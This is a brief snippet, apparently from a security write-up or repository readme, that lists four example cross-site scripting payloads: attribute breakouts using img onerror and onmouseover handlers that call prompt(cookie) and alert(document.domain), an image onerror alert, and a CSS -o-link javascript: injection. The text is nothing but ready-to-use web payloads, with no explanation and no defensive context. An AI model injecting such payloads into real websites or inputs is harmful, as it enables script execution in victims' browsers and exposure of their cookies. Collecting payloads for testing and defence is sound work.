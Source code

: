 
Example payload 1:
```
"><img src="x" onerror="prompt(cookie)">
```

Example payload 1b:
```
"><img src="x" onmouseover="alert(document.domain)">
```

Example payload 2:
```
<image src=x onerror=alert(1)>
```

Example Payload 3:
```
#red;-o-link:\u0027\u003Cjavascript:alert(1)\u003E\u0027;-o-link-source:current; testit`
```
